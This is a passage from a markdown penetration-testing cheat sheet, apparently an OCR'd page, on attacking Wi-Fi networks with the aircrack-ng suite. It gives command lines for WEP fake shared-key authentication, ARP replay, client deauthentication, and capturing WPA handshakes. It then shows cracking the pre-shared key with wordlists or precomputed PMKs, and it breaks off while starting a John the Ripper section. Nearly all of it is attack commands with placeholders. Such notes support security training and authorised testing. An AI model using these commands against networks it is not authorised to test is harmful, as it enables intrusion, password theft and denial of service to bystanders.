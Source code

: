 #### 3.4.2 fake Shared key authentication
Capture are pseudo random number generator algorithm (PRGA) *.xor file when a clients connects. To speed things up one could deauthenticate a already connected client.

1. DeAuth Attack on a client
`> aireplay-ng -0 1 -a <AP MAC> -c <VicClient MAC> <mon device>`
airodump should now display SKA under the auth column and the *.xor file should be available in the current folder

2. perform shared key fake athentication attack
`> aireplay-ng -0 60 -e <AP name> -y <xor file> -a <AP MAC> -h <mon MAC> <mon dev>`

#### 3.4.3 arp request relay attack

- waiting for ARP packet and retransmitts it to the AP to generate IVs
`> aireplay-ng -3 -b <AP mac> -h <mon MAC> <mon device>`
do another DeAuth attack to speed up process of receiving ARP packet
and then crack WEP with aircrack-ng


## 4. WPA PSK cracking
Capture four way handshake (4WH) (whenever a clients connects to the AP) to brute force the PSK later.

### 4.1 crack WPA with aircrack

#### 4.1.1 preparation

1. put device in monitoring mode
`> airmon-ng start <device> <channel>`

2. capture packets and save it to a file
`> airodump-ng -c <channel> --bssid <AP MAC> -w <dumpfile.name> <monitoring device>`

#### 4.1.2 deauth attack to capture 4WH
- run deauth attack on a client
`> aireplay-ng -0 1 -a <AP MAC> -c <VicClient MAC> <mon device>`
WPA 4WH should be displayed in airodump window and saved to a file in current folder

#### 4.1.3 crack WPA with aircrack
- cracking password using a wordlist
`> aircrack-ng -0 -w <wordlist> <capture file>`

- cracking password with precomputed PMKs (see airolib-ng)
`> aircrack-ng -0 -r <airolib dbname> <capture file>`

### 4.2 crack WPA with John the Ripper
Using the advanced wordlist crating rules of JtR and combine it with aircrack.

#### 4.2.1 preparation

1. put device in monitoring mode
`> airmon-ng start <device> <channel>`
